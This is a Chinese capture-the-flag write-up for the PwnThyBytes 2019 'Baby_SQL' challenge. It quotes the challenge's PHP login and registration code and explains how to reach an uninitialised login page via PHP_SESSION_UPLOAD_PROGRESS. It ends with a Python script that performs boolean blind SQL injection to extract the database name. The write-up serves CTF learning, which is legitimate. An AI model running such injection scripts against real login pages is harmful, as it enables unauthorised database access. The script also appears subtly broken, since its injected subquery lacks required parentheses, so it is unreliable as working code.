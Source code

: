 # \[PwnThyBytes 2019]Baby\_SQL

## \[PwnThyBytes 2019]Baby\_SQL

## 考点

## wp

F12发现提示`/source.zip`，访问得到源码。

在index.php中对所有的输入进行判断，必须是字符串然后做addslashes处理。然后是进行路由处理，主要有3个文件，home.php、login.php和register.php

```php
foreach ($_SESSION as $key => $value): $_SESSION[$key] = filter($value); endforeach;
foreach ($_GET as $key => $value): $_GET[$key] = filter($value); endforeach;
foreach ($_POST as $key => $value): $_POST[$key] = filter($value); endforeach;
foreach ($_REQUEST as $key => $value): $_REQUEST[$key] = filter($value); endforeach;

function filter($value)
{
    !is_string($value) AND die("Hacking attempt!");

    return addslashes($value);
}
```

在注册处，username的条件

1. 不能包含`admin`中的任一字符
2. 长度6-10
3. 必须由字母和数字组成

然后插入数据库

```php
(preg_match('/(a|d|m|i|n)/', strtolower($_POST['username'])) OR strlen($_POST['username']) < 6 OR strlen($_POST['username']) > 10 OR !ctype_alnum($_POST['username'])) AND $con->close() AND die("Not allowed!");

$sql = 'INSERT INTO `ptbctf`.`ptbctf` (`username`, `password`) VALUES ("' . $_POST['username'] . '","' . md5($_POST['password']) . '")';
```

登录处使用select语句验证账号密码，然后把用户名写入session

```php
$sql = 'SELECT `username`,`password` FROM `ptbctf`.`ptbctf` where `username`="' . $_GET['username'] . '" and password="' . md5($_GET['password']) . '";';
function auth($user){
    $_SESSION['username'] = $user;
    return True;
}
```

home是只返回一个静态页面。

这里在用了session，只在index.php进行初始化，后面每个页面都是判断session是否存在。

那可以通过PHP\_SESSION\_UPLOAD\_PROGRESS上传一个session，在templates/login.php页面进行盲注即可

```
#coding=utf-8 
import io
import requests
import time


sessid = 'peri0d'
url = 'http://0ac378b0-b87d-4881-a72b-ed216904678e.node4.buuoj.cn:81/templates/login.php'
s = requests.session()
while True:
    f = io.BytesIO(b'a' * 1024 * 50)
    flag = ''
    for i in range(1, 50):
        print(flag)
        for j in range(255):
            payload = {
            'username': f'1" or (ascii(mid(select database(),{i},1))={j})#',
            'password': '111'
            
            }
            r = s.post(url=url, data={'PHP_SESSION_UPLOAD_PROGRESS': '123456'}, files={'file': ('peri0d.txt',f)}, cookies={'PHPSESSID': sessid}, params=payload)
            # print(r.text)
            time.sleep(0.1)
            if 'meta' in r.text:
                flag = flag + chr(j)
                break




```

